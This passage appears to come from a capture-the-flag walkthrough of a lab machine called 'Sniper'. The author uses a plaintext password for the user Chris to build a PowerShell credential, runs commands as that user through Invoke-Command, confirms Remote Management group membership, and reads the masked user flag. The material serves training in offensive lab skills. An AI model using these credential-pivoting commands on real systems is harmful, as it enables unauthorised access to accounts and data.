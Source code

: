     PS C:\>
    

Now I can run as Chris, and it works:

    
    
    PS C:\> hostname
    Sniper
    PS C:\> $user = "Sniper\Chris"
    PS C:\> $pass = "36mEAhz/B8xQ~2VM"
    PS C:\> $secstr = New-Object -TypeName System.Security.SecureString
    PS C:\> $pass.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}
    PS C:\> $cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $user, $secstr
    PS C:\> Invoke-Command -ScriptBlock { whoami } -Credential $cred -Computer localhost
    sniper\chris
    

This means the creds are good, and that Chris is in the “Remote Management
Users” group, as I can verify:

    
    
    PS C:\> net user chris
    User name                    Chris
    Full Name                    
    Comment                      
    User's comment               
    Country/region code          000 (System Default)
    Account active               Yes
    Account expires              Never
    
    Password last set            4/11/2019 6:53:37 AM
    Password expires             Never
    Password changeable          4/11/2019 6:53:37 AM
    Password required            Yes
    User may change password     Yes
    
    Workstations allowed         All
    Logon script                 
    User profile                 
    Home directory               
    Last logon                   10/10/2019 5:53:48 PM
    
    Logon hours allowed          All
    
    Local Group Memberships      *Remote Management Use*Users                
    Global Group memberships     *None                 
    The command completed successfully.
    

Now I can use that same PowerShell to get `user.txt`:

    
    
    PS C:\inetpub\wwwroot\user> Invoke-Command -ScriptBlock { type \users\chris\desktop\user.txt } -Credential $cred -Computer localhost
    21f4d0f2************************
    